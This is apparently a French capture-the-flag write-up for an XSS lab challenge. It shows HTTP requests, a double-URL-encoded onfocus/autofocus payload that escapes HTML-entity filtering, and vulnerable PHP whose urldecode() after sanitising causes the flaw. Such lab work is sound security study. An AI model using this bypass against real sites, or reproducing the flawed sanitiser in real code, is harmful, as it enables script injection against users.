 # xss7

## Exploitation

Dans cet avant dernier challenge, l'application encode maintenant les chevrons `<` et `>` ainsi que le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (51) (1).png>)

Je renseigne ces caractères afin de mieux déterminer le traitement effectué :

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%3C%3E%22&submit=Envoyer
```

Les caractères sont ici correctement encodés par une transformation en entités HTML :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2130
Connection: close
Content-Type: text/html; charset=UTF-8



<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever&lt;&gt;&quot;" placeholder="keyword" required>
</div> 
```

![](<../../../.gitbook/assets/image (46).png>)

Je tente d'utiliser le caractère `'` à la place de `"` mais cela ne fonctionne pas. Il me faut donc trouver une payload représentée sous un autre format que les caractères filtrés. Au bout de quelques essais je tente l'encodage URL `whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522` :&#x20;

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2150
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :&#x20;

![](<../../../.gitbook/assets/image (48).png>)

## Analyse du code source

La fonction `xss_check()` effectue bien les modifications indiquées par l'auteur, à savoir la transformation en entités HTML des caractères `<`, `>` et `"`. L'injection avec le caractère `'` n'est en effet pas possible ici, car la construction du code s'effectue bien avec le double guillemet. L'injection en utilisant l'encodage URL est possible ici car l'application effectue un `urldecode()`, je ne pense pas que l'injection soit possible sans cela :thinking: :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = str_replace("\"", "&quot;", $input);
    $input = urldecode($input);
    
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
